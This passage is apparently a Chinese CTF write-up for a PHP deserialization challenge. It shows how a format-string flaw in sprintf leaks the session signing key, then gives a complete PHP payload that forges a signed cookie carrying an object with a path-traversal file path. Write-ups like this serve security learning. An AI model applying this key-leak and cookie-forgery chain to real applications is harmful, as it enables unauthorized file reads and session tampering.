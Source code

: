 主要的逻辑点在session_read和session_create上，session_create会对一个数组的类型的数据进行序列化并签名，session_read会根据签名验证序列化的数据是否被篡改，如果没有被篡改那么就进行反序列化。显然这是一道考察反序列化知识点的题目，可利用的魔术方法是Application.php中的__destruct，这个类对应的对象在析构的时候会去文件内容并返回。

唯一需要解决的问题是如何拿到eancrykey,代码中和key操作相关的是session_read这一段

```
if(!empty($_POST["nickname"])) `{`
            $arr = array($_POST["nickname"],$this-&gt;eancrykey);
            $data = "Welcome my friend %s";
            foreach ($arr as $k =&gt; $v) `{`
                $data = sprintf($data,$v);
            `}`
            parent::response($data,"Welcome");
        `}`
```

这里把eancrykey也带入了循环，所以只要nickname中有%s即可读出，具体操作如下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01941da1c49fa7f75a.png)

有了eancrykey就可以随便签名了，下面是最终payload

```
&lt;?php

include 'Application.php';
$eancrykey = "EzblrbNS";

$sessionid = '';
while(strlen($sessionid) &lt; 32) `{`
    $sessionid .= mt_rand(0,mt_getrandmax());
`}`

$poc = new Application();
$poc-&gt;path = "..././config/flag.txt";

$userdata = array(
    'session_id' =&gt; md5(uniqid($sessionid,TRUE)),
    'ip_address' =&gt; $_SERVER['REMOTE_ADDR'],
    'user_agent' =&gt; $_SERVER['HTTP_USER_AGENT'],
    'user_data' =&gt; '',
    'flag' =&gt; $poc,
);

$cookiedata = serialize($userdata);
$cookiedata = $cookiedata.md5($eancrykey.$cookiedata);
echo "-----------------------------------------------\n";
var_dump($cookiedata);
```

[![](https://p1.ssl.qhimg.com/t0172b531e7777df833.png)](https://p1.ssl.qhimg.com/t0172b531e7777df833.png)
